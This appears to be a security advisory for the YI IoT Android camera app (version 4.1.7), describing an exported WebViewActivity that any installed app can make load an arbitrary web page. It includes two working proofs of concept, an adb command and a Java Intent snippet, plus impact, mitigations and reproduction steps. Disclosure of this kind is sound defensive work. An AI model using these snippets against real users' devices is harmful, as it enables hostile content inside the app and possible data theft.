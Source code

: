 

**Vulnerability Details:**

Product: YI IoT 'com.yunyi.smartcamera'
Version: 4.1.7_20231026
Vendor: Kami Vision
Component Affected: `com.ants360.yicamera.activity.WebViewActivity`

The activity `com.ants360.yicamera.activity.WebViewActivity` is marked as exported and accepts an implicit Intent, making it accessible from any third-party application. This can be exploited to load a malicious web page in the WebView, potentially leading to RCE or unauthorized actions.

**Proof of Concept 1 - ADB Invocation:**

```
adb shell am start -n com.yunyi.smartcamera/com.ants360.yicamera.activity.WebViewActivity -e path "https://www.example.com/maliciousContent"
```

**Proof of Concept 2 - Third-party Android Java Code:**

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.yunyi.smartcamera", "com.ants360.yicamera.activity.WebViewActivity"));
intent.putExtra("path", "https://www.example.com/maliciousContent");
startActivity(intent);
```

This Java code snippet demonstrates how a malicious application can invoke the `WebViewActivity` without any permissions, thereby leveraging the vulnerability.

**Impact:**

The vulnerability does not require any permissions and can be exploited by any third-party application installed on the same device. It could lead to unauthorized access, data theft, or manipulation of user information.

**Recommended Mitigations:**

1. Set `android:exported` to `false` for `WebViewActivity` if it is not meant to be accessed externally.
2. Restrict the activity to respond only to explicit Intents from trusted sources.
3. Sanitize and validate all Intent data before use within the app.
4. Implement WebView security best practices, including the disabling of JavaScript if it is not essential.

**Steps to Reproduce:**

1. Install the YI IoT app (version 4.1.7_20231026).
2. Execute the adb command or the Java code provided above.
3. Observe the WebView loading content from the arbitrary, potentially malicious source.
